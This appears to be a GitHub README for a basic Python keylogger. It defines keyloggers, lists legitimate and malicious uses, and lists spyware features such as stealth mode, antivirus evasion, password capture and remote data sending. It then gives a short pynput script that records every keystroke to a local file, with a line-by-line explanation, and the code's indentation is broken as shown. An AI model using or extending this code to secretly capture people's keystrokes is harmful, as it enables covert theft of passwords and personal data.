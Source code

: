 # Basic Keylogger
A keylogger (short for keystroke logger) is a type of software or hardware device designed to secretly monitor and record each keystroke made on a computer or device. Keyloggers are often used for both legitimate and malicious purposes.

# Legitimate Uses:

* Employers tracking employee activity
* Parents monitoring children's online behavior.
* Troubleshooting and system usage analysis.

# Malicious Uses:
Cybercriminals steal sensitive information like passwords, credit card numbers, and personal data.

# Features
* Keystroke Logging
The primary function: captures and records every key pressed on the keyboard.
* Stealth Mode
Operates undetected by the user and often avoids detection by antivirus or system monitoring tools.
* Clipboard Monitoring
Tracks anything copied or pasted, such as text, passwords, or sensitive data.
* Application-Specific Logging
It focuses on capturing input from specific applications, like word processors or web browsers.
* Remote Access and Data Transmission
Sends recorded data to a remote server, email, or cloud storage for external monitoring.
* Screenshot Capture
Periodically takes screenshots of the screen to track visual activity alongside keystrokes.
* Website Tracking
Monitors websites visited and forms filled out.
* Password Logging
Captures passwords entered in login fields or forms.
* Search Query Monitoring
Records search terms entered into search engines.
* Time and Activity Logs
Tracks the date, time, and duration of user activity to give a timeline of usage.

# Code
     from pynput import keyboard

    log_file = "keylog.txt"

    def on_press(key):
    with open(log_file, "a") as f:
        try:
            f.write(f"{key.char}")
        except AttributeError:
            f.write(f" {key} ")  # Handle special keys

    def on_release(key):
    if key == keyboard.Key.esc:
        return False  # Stop listener on Esc key

    with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

# Code explanation
   # 1. Importing Required Module 
    from pynput import keyboard
   * Purpose: This imports the keyboard module from the pynput library.
   * Functionality: The pynput. keyboard module allows the program to monitor and control keyboard events, such as key presses and releases

  # 2. Defining the Log File
    log_file = "keylog.txt"
 * Purpose: Specify the file name (keylog.txt) where all recorded keystrokes will be stored.
 * Details: Every keypress is written into this file in append to preserve previously recorded data.

# 3. Handling Key Press Events
    def on_press(key):
    with open(log_file, "a") as f:
        try:
            f.write(f"{key.char}")
        except AttributeError:
            f.write(f" {key} ")  # Handle special keys
  * Defines a function on_press that is triggered every time a key is pressed.
  * Opens the file keylog.txt in append mode ("a") to add new data without overwriting existing data.
  * Logs the pressed key's character representation (key.char).
  * Captures an AttributeError for special keys (e.g., Shift, Enter, Ctrl).
  * All keystrokes are logged into keylog.txt, including regular characters and special keys.
    
# 4. Handling Key Release Events
    def on_release(key):
    if key == keyboard.Key.esc:
        return False  # Stop listener on Esc key
  * Defines a function on_release that is triggered when a key is released.
  * Checks if the released key is the Escape (Esc) key.
  * If Esc is pressed, the function returns False, which stops the keylogger listener.
  * This provides a way to exit the program gracefully.
    
# 5. Starting the Keylogger Listener
    with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
  * Initializes and starts the keyboard. Listener to track keyboard events.
  * on_press: Specifies the function to handle key press events
  * on_release: Specifies the function to handle key release events.
  * The with statement ensures the listener runs until stopped.
  * listener.join() keeps the program running and actively listens to keyboard input.



      
   
     
